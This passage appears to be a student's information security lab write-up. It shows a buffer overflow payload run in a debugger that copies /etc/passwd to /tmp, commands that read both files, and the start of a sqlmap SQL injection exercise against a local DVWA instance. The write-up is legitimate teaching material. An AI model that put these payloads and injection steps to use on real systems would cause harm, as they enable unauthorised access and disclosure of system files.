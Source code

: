 ```
run $(python -c "print('a' * 20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x04\xdf\xff\xff')")
```

The first 20 bytes will overflow the buffer memory and the ebp, followed by the addresses we expect.

After running command, here's the result:

<img width="500" alt="Screenshot" src="https://github.com/leonart-delux/informationsecurity-labs/blob/e65982fbe770327e1d679d0c11722709e044e243/images/task1/result.jpg"><br>

As we can clearly see, a file named outfile is created in /tmp/ as expected.

Inspect outfile using this command (when still in the /tmp/ folder):

```
cat outfile
```
Result:

<img width="500" alt="Screenshot" src="https://github.com/leonart-delux/informationsecurity-labs/blob/2562028aa8e07a5365f2f3d537dda862ca804e06/images/task1/catResult.jpg"><br>

Check content in /etc/passwd:

Command:

```
cat /etc/passwd
```

Result:

<img width="500" alt="Screenshot" src="https://github.com/leonart-delux/informationsecurity-labs/blob/659e6ad814b8adce5dac15e38439d511277c7040/images/task1/check.jpg"><br>

The content of /etc/passwd matches the content in /tmp/outfile.

**Conclusion**: Task successfully.

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

#### 1. Preparation.

After getting into SQL Injection option of DVWA, which we will use sqlmap on, we need to retrieve some needed informations first.

First, we need the URL. I will submit first request with id=1 to form a complete URL which sent back to server. And here's what we have: "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#". 

It also reveals that current page is using GET method.
